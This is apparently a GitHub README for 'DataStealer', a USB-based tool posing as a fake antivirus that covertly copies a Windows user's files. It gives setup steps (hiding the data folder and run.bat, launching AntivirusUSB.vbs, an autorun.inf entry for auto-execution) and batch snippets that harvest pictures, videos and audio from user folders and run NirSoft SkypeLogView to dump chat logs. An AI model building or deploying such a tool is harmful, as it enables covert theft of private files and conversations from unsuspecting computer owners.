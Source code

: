# DataStealer

## Information
DataStealer is a simple funcionality for USB device (fake Antivirus USB) to gather information in Windows systems.

## Intructions
Just copy all from DataStealer folder and paste in USB device. Hide **"data"** folder and **"run.bat"**. When you conect USB device in Windows system just doble click in AntivirusUSB.vbs and DataStealer copy all files stealthily from pc.

***NOTE: You can use autotun.inf for auto-execute .vbs file but it only works in Windows Vista and Windows XP.***

[**Autorun.inf**](wikipedia.org/wiki/AutoRun "Wikipedia")
>[AutoRun]
>
>Open=AntivirusUSB.vbs

## Configuration

### Folders
If you want you can add more lines with folders in **"run.bat"** for gather information.

Like this:
>REM ############ Formats ############
>
>FOR /R **"%userprofile%\Pictures\"** %%a IN (%rest%) DO (copy /y "%%a" "%%#:\data\capt\%USERNAME%\")
>
>REM #################################

Replace **"%userprofile%\Pictures\"** for any folder.

### Formats
If you want you can add more formats in **"run.bat"** of files to gather

Like this:
>REM ############ Formats ############
>
>set rest= \*.jpg,\*.png,\*.mp4,\*.3gp,\*.wav,**\*.avi**
>
>REM #################################

### More funcionalities (Nirsoft)
NirSoft web site provides a unique collection of small and useful freeware utilities, all of them developed by Nir Sofer. 

For more funcionalities, go to [nirsoft.net](www.nirsoft.net "Nirsoft"), download software and put in "data/soft/" folder.

Later add a line for each software in **"run.bat"**.

Like this:
>REM ############ Nirsoft ############
>
>start data/soft/**SkypeLogView**.exe /shtml "data\pss\%USERNAME%\\**SkypeLogView**.html"
>
>REM #################################

Replace **SkypeLogView** in both places with the software name.

# Download
[Releases](https://github.com/Kevinsillo/datastealer/releases)